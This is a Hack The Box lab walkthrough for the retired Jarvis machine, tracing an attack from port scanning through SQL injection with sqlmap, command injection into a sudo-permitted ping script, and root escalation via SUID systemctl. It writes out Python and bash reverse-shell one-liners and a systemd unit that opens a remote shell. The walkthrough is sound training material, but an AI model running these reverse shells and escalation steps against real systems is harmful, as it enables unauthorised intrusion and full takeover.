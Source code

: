 # Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box. </br>
It is a Linux based machine. </br>
This machine has a static IP address <10.10.10.143> </br>
It was a nice bit easy machine. </br>
</br>
You have to found **user.txt** and **root.txt** flag. </br> 

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine. </br>

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this </br>
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php** </br>

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sqlmap_1.png)

And we got the shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener </br>

* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**We got the shell but it is not the proper user**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt** </br>
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumerating I look into **sudoers file**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/w_perm.png)

As we can see that **www-data** can run **/var/www/Admin-Utilities/simpler.py** </br>
with **pepper** user permission.

So we go through the **/var/www/Admin-Utilities/simpler.py** python file </br>
and in that we can see a **exec_ping** function and it looks something suspicious for privelage escalation to **pepper**.

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ping.png)

As there are some blacklist symbols but **$** symbol is not blacklisted. </br>

So we simply run 
* ` sudo -u pepper /var/www/Admin-Utilities/simpler.py -p `
with **-p** which is ping option

Then it pop up with **Enter an IP** option </br>
There use the non-blacklisted symbol with bash command
* ` $(bash) `

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/pepper_shell.png)

**We got the pepper user** </br>

But we are not able to run any command so we try to get a reverse shell from **pepper** user </br>
and also start a listener

So I simply run a bash reverse shell command 
* `bash -i >& /dev/tcp/<your ip>/1234 0>&1`

And we got the new **pepper** user shell
Then we enumerate ffor **user.txt**
* `ls -al`
* `cat user.txt`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/user.png)

Now we have to read our **root.txt** flag </br>
So for that we have to escalate our privelage to **root**.

So firstly we check for **SUID bit SET**
* `find / -perm -u=s -type f 2>/dev/null`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/suid.png)

Here we find **/bin/systemctl** service running with **root** permission </br>

* As Systemctl is a systemd utility that is responsible for Controlling the systemd system and service manager.

So we make a new service named shell.service </br>
	
`[Unit]`</br>
`Description=hacking articles`</br> 
`[Service]`</br>
`Type=simple`</br>
`ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/8888 0>&1'`</br>
`[Install]`</br>
`WantedBy=multi-user.target`</br>

Now download that service file from machine to **Jarvis** machine </br>
Now enable the service
* /bin/systemctl enable /home/pepper/shell.service
* /bin/systemctl start shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ena.png)

Now start the listener again

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/root.png)

**We got the root.txt flag**
This is very good machine and I learn a lot of new things.

Author: Hardik Chugh
